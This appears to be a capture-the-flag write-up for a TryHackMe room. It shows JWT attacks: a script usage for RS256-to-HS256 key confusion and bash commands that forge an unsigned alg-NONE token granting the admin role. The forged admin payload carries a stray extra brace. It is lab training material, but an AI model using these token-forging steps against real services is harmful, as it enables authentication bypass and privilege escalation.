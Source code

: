 # ZTH

[tryhackme room](https://tryhackme.com/room/zthobscurewebvulns)

## Section 3 JWT exploitation via HS256 and public key

Following [PayloadsAllTheThings JWT signature RS256 to HS256](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token#jwt-signature---rs256-to-hs256)

```bash
# USAGE:
# ./zth-jwt.bash public-key.pem JWT
# Example
# ./zth-jwt.bash jwt-auth-server-public-key.pem eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJQYXJhZG94IiwiaWF0IjoxNjE2MzQ0NDAyLCJleHAiOjE2MTYzNDQ1MjIsImRhdGEiOnsicGluZ3UiOiJub290cyJ9fQ.Puej1hnMVYNgXiUvqienWlQ9L2G4rsJSt0--HUS-kg_FJ
```

## Section 4 JWT alg None

```bash
JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjE2MzQ3MDM1NDQ0LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6NjguMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC82OC4wIiwicm9sZSI6InVzZXIiLCJpYXQiOjE2MTYzNDcwMzV9.m7vtO7ioXzrvwanoTug5YlXUz0Y77UdWwocvGDFDDSM

JWT_HEADER=$(cut -d'.' -f1 <<<"$JWT")
JWT_PAYLOAD=$(cut -d'.' -f2 <<<"$JWT")
echo decoded header:
CLEARTEXT_HEADER=$(echo "$JWT_HEADER" | base64 -d)
echo $CLEARTEXT_HEADER

CLEARTEXT_PAYLOAD=$(echo "$JWT_PAYLOAD" | base64 -d)
echo decoded payloaded:
echo $CLEARTEXT_PAYLOAD
```

eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJhdXRoIjoxNjE2MzQ3MDM1NDQ0LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IExpbnV4IHg4Nl82NDsgcnY6NjguMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC82OC4wIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNjE2MzQ3MDM1fX0=.

After some inspection, we can manually adjust the header's `alg` and the payload's `role`.

```bash
ADMIN_PAYLOAD='{"auth":1616347035444,"agent":"Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0","role":"admin","iat":1616347035}}'

JWT_HEADER_WITH_NONE=$(echo -n '{"typ":"JWT","alg":"NONE"}' | base64)
JWT_PAYLOAD_AS_ADMIN=$(echo -n $ADMIN_PAYLOAD | base64)
# Note the final dot. we leave out the signature for alg NONE
BAD_PAYLOAD_AS_ADMIN=$(echo -n ${JWT_HEADER_WITH_NONE}.${JWT_PAYLOAD_AS_ADMIN}.)
echo $BAD_PAYLOAD_AS_ADMIN
echo $BAD_PAYLOAD_AS_ADMIN | xclip -selection clipboard # directly copy to clipboard
```
